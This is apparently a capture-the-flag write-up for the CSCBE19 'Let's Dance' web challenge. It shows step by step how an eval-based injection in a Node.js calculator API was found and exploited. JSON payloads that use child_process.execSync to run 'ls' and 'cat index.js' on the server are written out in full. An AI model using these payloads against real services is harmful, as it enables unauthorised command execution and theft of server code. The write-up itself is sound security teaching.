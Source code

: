 ```yaml
---
layout: posts
title:  Finals CSCBE19 - Let's Dance - Web (180 pts)
date:   2019-03-02
categories: [CTFs, finalscscbe19]
---
```


[~$ cd ..](/ctfs/finalscscbe19/2019/03/02/index.html)

Author: [renaud11232](https://renaud11232.github.io/ctf/CSCBE2019/Finals/lets_dance/)
>One of my friends created an online calculator yesterday! However he had some issues
with his API endpoint.. Could you take a look at this example request?
For this challenge, we were asked to find and exploit a vulnerability in a simple web API.

The API had only one route accepting only `POST` requests. The requests body were meant to be simple equations that were going to be solved. The requests and responses were `json` formatted.

The requests body looked like this:

```json
{
  "equation": "1+1"
}
```
And the responses:
```json
{
  "result": 2
}
```

We first tried some very crude buffer overflows and stack overflows by sending massive requests and equations with a lot of parenthesis. None of that worked.

Then we thought the backend may use a function like `eval(expr)` to compute the result, so we gave it a try. Sending :
```json
{
  "equation": "eval(1)"
}
```
gave us the following response :
```json
{
  "result": 1
}
```

Here we had found the vulnerability but not yet the language used, so we just sent another request :
```json
{
  "equation": "eval(1);"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we thought about either a `php` or `js` server.
We placed our bet on `js` and tried the following request :
```json
{
  "equation": "var dummy = 1;"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we started building a payload allowing us to execute commands on the server :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('ls')).toString('hex');out;"

}
```

Which gave us `index.js` in hexadecimal. Then we made a last request :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('cat index.js')).toString('hex');out;"
}
```

This gave us all the code of the server which contained the flag.

DONE
